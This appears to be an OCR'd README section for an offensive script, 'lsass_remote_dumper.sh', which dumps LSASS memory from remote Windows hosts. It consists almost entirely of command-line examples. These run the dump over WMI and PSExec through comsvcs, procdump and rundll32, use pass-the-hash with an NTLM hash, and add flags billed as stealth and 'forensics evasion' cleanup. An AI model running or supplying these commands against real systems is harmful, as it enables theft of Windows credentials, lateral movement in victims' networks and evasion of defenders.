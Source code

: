 
Remote Execution Methods

Method 1: WMI (Windows Management Instrumentation)

Basic WMI Operations

Bash


# Standard WMI remote dump
./lsass_remote_dumper.sh -r -t 192.168.1.100 -u admin -p "password" -x wmi -m comsvcs

# Domain authentication via WMI
./lsass_remote_dumper.sh -r -t server.corp.com -u admin -p "password" -d CORP -x wmi -m all


Advanced WMI Techniques

Bash


# WMI with custom timeout
./lsass_remote_dumper.sh -r -t 192.168.1.100 -u admin -p "password" \
  -x wmi -m rundll32 --timeout 60

# Stealth WMI operation
./lsass_remote_dumper.sh -r -t target.com -u admin -p "password" \
  -x wmi -m comsvcs -s -c -q


Method 2: PSExec-style Execution

Standard PSExec Operations

Bash


# Basic PSExec remote dump
./lsass_remote_dumper.sh -r -t 192.168.1.101 -u administrator -p "password" \
  -x psexec -m procdump

# Impacket PSExec with hash
./lsass_remote_dumper.sh -r -t 192.168.1.101 -u admin \
  --hash "aad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76" -x psexec -m comsvcs


PSExec Best Practices

Bash


# Use with cleanup for forensics evasion
./lsass_remote_dumper.sh -r -t 192.168.1.101 -u admin -p "password" \
  -x psexec -m rundll32 -c
